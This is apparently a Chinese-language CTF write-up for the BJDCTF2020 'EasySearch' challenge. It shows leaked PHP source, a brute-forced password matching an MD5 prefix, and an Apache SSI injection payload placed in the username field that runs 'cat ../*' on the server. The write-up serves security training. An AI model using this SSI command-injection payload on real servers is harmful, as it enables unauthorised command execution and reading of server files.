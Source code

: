 # \[BJDCTF2020]EasySearch

## \[BJDCTF2020]EasySearch

## 考点

* Apache SSI 远程命令执行漏洞

## wp

扫描存在index.php.swp文件，给了一部分代码

```php
<?php
  ob_start();
  function get_hash(){
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
    $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
    $content = uniqid().$random;
    return sha1($content); 
  }
    header("Content-Type: text/html;charset=utf-8");
  ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
      ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
      echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
  ***
    }
  ***
?>
```

password的md5值前6位要是6d0bc1，脚本爆破出来是2020666，在返回头给了文件地址

![](<../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

shtml存在一个Apache SSI 远程命令执行漏洞，在登录界面使用如下payload

```
username=<!--#exec cmd="cat ../*" -->&password=2020666
```

![](<../.gitbook/assets/image (13) (1) (1) (1).png>)

再返回返回的`Url_is_here`就可以了

![](<../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. 查查Apache SSI 远程命令执行漏洞
